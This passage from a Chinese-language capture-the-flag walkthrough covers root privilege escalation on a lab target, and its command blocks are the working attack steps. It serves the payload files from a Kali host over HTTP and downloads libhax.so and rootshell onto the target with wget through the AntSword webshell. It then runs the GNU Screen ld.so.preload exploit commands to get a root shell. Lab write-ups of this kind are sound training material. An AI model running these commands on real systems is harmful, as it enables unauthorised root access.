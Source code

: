 可以看到本地生成了两个文件

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJeh9tnuL8AUOaFice1fB0t3wbHMrdqSMg5Ix17pFOgxl715jkKRKGK1g/640?wx_fmt=png)

将这两个文件通过 http 上传到靶机当中

在 kali 中执行

```
python -m SimpleHTTPServer 8000
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJBkTzx2E3vxKDC5icmryOrcNcgO6h8iaBWbYD2yzBIibKuhJUKpySlJsLw/640?wx_fmt=png)

在蚁剑中通过 wget 下载下来

> http://192.168.1.116:8000/libhax.so

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJcLZNO7iag1JcEELndG6VbKvxSkdWNprmlXPpJ01iaWbRicjJyvgW2QmKg/640?wx_fmt=png)

> http://192.168.1.116:8000/rootshell

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJ1jg4OLqtHibFUSe16mdSYMhn2z2pZvNIUt6beUEHVYGl9dHrlO1HNaA/640?wx_fmt=png)

可以看到靶机有两个文件

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJMO2RkzfibHqW9YQMVhgquAabWHf4FMhJYD4P5qfXP4LS0NZNXZibO7fQ/640?wx_fmt=png)

执行之前脚本的第三个代码块，依次执行下面每条语句

```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen –ls
/tmp/rootshell
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJmiaSpDN09yqCBZTerojMiaetgEYNAgXe223vzZphXutKKEynajj9JpVg/640?wx_fmt=png)

发现提权成功

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJmiaSpDN09yqCBZTerojMiaetgEYNAgXe223vzZphXutKKEynajj9JpVg/640?wx_fmt=png)

最终拿到 flag

**07 总结**
---------

1.  通过包含漏洞获取信息，以及执行木马
    
2.  通过 bp 爆破获取参数名称，以及服务器日主文件
    
3.  熟悉 searchsploit，找到已知漏洞